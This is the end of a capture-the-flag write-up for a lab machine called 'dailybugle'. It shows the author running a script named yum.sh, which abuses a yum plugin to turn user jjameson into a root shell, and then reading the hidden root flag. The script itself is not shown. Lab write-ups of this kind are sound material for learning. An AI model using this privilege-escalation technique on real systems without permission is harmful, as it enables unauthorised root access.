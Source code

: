 Make it executable and then run it to get to a root prompt:

```text
[jjameson@dailybugle ~]$ chmod +x yum.sh
[jjameson@dailybugle ~]$ ./yum.sh
Loaded plugins: y
No plugin match for: y
sh-4.2# whoami
root
```

Now we can grab the root flag and we have completed another room:

```text
sh-4.2# pwd
/home/jjameson
sh-4.2# cd /root
sh-4.2# ls
anaconda-ks.cfg  root.txt
sh-4.2# cat root.txt
<HIDDEN>
```

All done. See you next time.
